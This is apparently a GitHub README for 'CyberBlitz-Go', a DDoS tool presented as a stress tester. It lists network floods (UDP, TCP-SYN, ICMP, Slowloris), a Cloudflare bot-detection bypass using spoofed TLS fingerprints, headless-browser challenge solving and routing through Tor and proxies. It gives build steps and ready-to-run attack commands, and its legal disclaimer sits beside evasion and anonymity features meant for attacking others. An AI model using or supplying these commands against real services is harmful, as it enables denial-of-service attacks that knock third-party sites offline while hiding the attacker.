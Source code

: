 <div align="center">
  <img src="https://raw.githubusercontent.com/A11gitss/CyberBlitz-DDoS/main/banner.png" alt="CyberBlitz Banner" style="max-width: 100%;"/>
</div>

<div align="center">
  <h1 align="center">CyberBlitz-Go - Advanced Stress Testing Tool</h1>
</div>

<p align="center">
  <a href="https://github.com/A11gitss/CyberBlitz-DDoS/blob/main/LICENSE">
    <img src="https://img.shields.io/github/license/A11gitss/CyberBlitz-DDoS?style=for-the-badge" alt="License">
  </a>
</p>

---

### ⚠️ Предупреждение / Warning

**Этот инструмент предназначен исключительно для образовательных целей и для использования в рамках легального стресс-тестирования и анализа безопасности с явного разрешения владельца целевого ресурса.**

**Автор не несет никакой ответственности за любой ущерб или незаконные действия, совершенные с использованием этого программного обеспечения. Использование CyberBlitz для атаки на цели, на которые у вас нет разрешения, является незаконным и может повлечь за собой серьезные юридические последствия.**

**This tool is intended for educational purposes and for use in legal stress testing and security analysis with the explicit permission of the target resource owner.**

**The author bears no responsibility for any damage or illegal actions committed using this software. Using CyberBlitz to attack targets for which you do not have permission is illegal and may result in severe legal consequences.**

---

## About The Project

**CyberBlitz-Go** is a high-performance, command-line-only rewrite of the original CyberBlitz tool, built entirely in Go. It is a versatile and powerful stress-testing tool designed for security professionals and developers, leveraging Go's concurrency for maximum efficiency. It allows for the simulation of a wide range of attacks, from low-level network floods (Layer 3/4) to sophisticated application-level attacks (Layer 7) aimed at bypassing modern security systems.

### Key Features

*   **High-Performance Core:** Written in Go to utilize goroutines for massive concurrency and low overhead.
*   **Layer 7 (Application Level) Attacks:**
    *   **Advanced Cloudflare Bypass (`HTTPS-BYPASS`):** Utilizes `uTLS` to mimic real browser TLS fingerprints (JA3/JARM) to bypass advanced bot detection.
    *   **Real Browser Emulation (`HTTP-BROWSER`):** Uses `playwright-go` to launch a full-fledged headless browser to solve JavaScript challenges and other interactive security measures.
*   **Layer 4/3 (Network Level) Attacks:**
    *   **TCP/UDP Floods:** Includes `TCP-SYN` and `UDP` flood types.
    *   **ICMP Flood:** A standard ICMP echo request flood.
    *   **Slowloris:** A low-and-slow connection exhaustion attack.
*   **Advanced Anonymity & Spoofing:**
    *   **SOCKS5 & Tor Support:** Route Layer 7 attacks through SOCKS5 proxies or a local Tor instance.
    *   **Detailed Spoofing:** Generates a complete browser persona, including consistent User-Agent and modern `Sec-CH-UA` headers.

### Installation

1.  **Clone the repository:**
    ```bash
    git clone https://github.com/A11gitss/CyberBlitz-DDoS.git
    cd CyberBlitz-DDoS
    ```

2.  **Install Go:**
    Make sure you have Go installed (version 1.21 or newer is recommended). You can download it from [go.dev](https://go.dev/dl/).

3.  **Install Dependencies:**
    This command will download all the necessary Go modules.
    ```bash
    go mod tidy
    ```

4.  **Install Playwright Browsers:**
    For the `HTTP-BROWSER` method to work, you need to install the browser binaries for Playwright.
    ```bash
    go run github.com/playwright-community/playwright-go/cmd/playwright install
    ```
    If you encounter errors on Linux, you may need to install system dependencies:
    ```bash
    go run github.com/playwright-community/playwright-go/cmd/playwright install-deps
    ```

5.  **Build the application:**
    ```bash
    go build -o bin/cyberblitz-go cmd/cyberblitz/main.go
    ```
    This will create the executable `cyberblitz-go` inside the `bin/` directory.

### How To Use

**Note:** Layer 3 attacks (like `ICMP-FLOOD`) may require root privileges. Use `sudo` for these methods.

**General format:**
```bash
./bin/cyberblitz-go --target <IP_OR_URL> --method <METHOD> [OPTIONS]
```

**Attack launch examples:**

*   **Simple UDP flood on an IP address:**
    ```bash
    ./bin/cyberblitz-go --target 1.2.3.4 --port 80 --method UDP --threads 100 --duration 120
    ```

*   **Advanced Cloudflare bypass using TLS fingerprints:**
    ```bash
    ./bin/cyberblitz-go --target https://protected.com --method HTTPS-BYPASS --threads 50 --duration 300
    ```

*   **Browser emulation attack to solve JS challenges:**
    ```bash
    ./bin/cyberblitz-go --target https://challenge.com --method HTTP-BROWSER --threads 10 --duration 180
    ```

*   **TCP SYN flood using Tor:**
    ```bash
    sudo ./bin/cyberblitz-go --target 1.2.3.4 --port 443 --method TCP-SYN --threads 200 --duration 300 --use-tor
    ```

📬 Feedback

If you have ideas, suggestions for improvement, or want to contribute — feel free to reach out:

📨 Telegram: @a11_89d

Any help or feedback is welcome!

### License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
